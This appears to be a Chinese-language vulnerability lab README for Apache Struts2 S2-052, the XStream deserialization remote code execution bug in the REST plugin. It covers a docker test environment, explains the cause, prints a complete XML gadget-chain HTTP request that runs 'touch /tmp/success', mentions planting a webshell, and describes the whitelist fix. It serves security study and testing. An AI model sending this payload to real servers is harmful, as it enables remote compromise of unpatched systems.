

# S2-052 远程代码执行漏洞

影响版本：Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情：

 - http://struts.apache.org/docs/s2-052.html
 - https://yq.aliyun.com/articles/197926

## 测试环境搭建

```
docker compose up -d
```

## 漏洞说明

Struts2-Rest-Plugin 是让 Struts2 能够实现 Restful API 的一个插件，其根据 Content-Type 或 URI 扩展名来判断用户传入的数据包类型，有如下映射表：

扩展名 | Content-Type | 解析方法
---- | ---- | ----
xml | application/xml | xstream
json | application/json | jsonlib 或 jackson(可选)
xhtml | application/xhtml+xml | 无
无 | application/x-www-form-urlencoded | 无
无 | multipart/form-data | 无

jsonlib 无法引入任意对象，而 xstream 在默认情况下是可以引入任意对象的（针对 1.5.x 以前的版本），方法就是直接通过 xml 的 tag name 指定需要实例化的类名：

```
<classname></classname>
//或者
<paramname class="classname"></paramname>
```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在 Struts2 库中适用的 gedget。

## 漏洞复现

启动环境后，访问 `http://your-ip:8080/orders.xhtml` 即可看到 showcase 页面。由于 rest-plugin 会根据 URI 扩展名或 Content-Type 来判断解析方法，所以我们只需要修改 orders.xhtml 为 orders.xml 或修改 Content-Type 头为 application/xml，即可在 Body 中传递 XML 数据。

所以，最后发送的数据包为：

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

以上数据包成功执行的话，会在 docker 容器内创建文件 `/tmp/success`，执行 `docker compose exec struts2 ls /tmp/` 即可看到。

此外，我们还可以下载一个 jspx 的 webshell：



还有一些更简单的利用方法，就不在此赘述了。

## 漏洞修复

struts2.5.13 中，按照 xstream 给出的缓解措施（http://x-stream.github.io/security.html），增加了反序列化时的白名单：

```java
protected void addDefaultPermissions(ActionInvocation invocation, XStream stream) {
    stream.addPermission(new ExplicitTypePermission(new Class[]{invocation.getAction().getClass()}));
    if (invocation.getAction() instanceof ModelDriven) {
        stream.addPermission(new ExplicitTypePermission(new Class[]{((ModelDriven) invocation.getAction()).getModel().getClass()}));
    }
    stream.addPermission(NullPermission.NULL);
    stream.addPermission(PrimitiveTypePermission.PRIMITIVES);
    stream.addPermission(ArrayTypePermission.ARRAYS);
    stream.addPermission(CollectionTypePermission.COLLECTIONS);
    stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class}));
}
```

但此时可能会影响以前代码的业务逻辑，所以谨慎升级，也没有特别好的办法，就是逐一排除老代码，去掉不在白名单中的类。
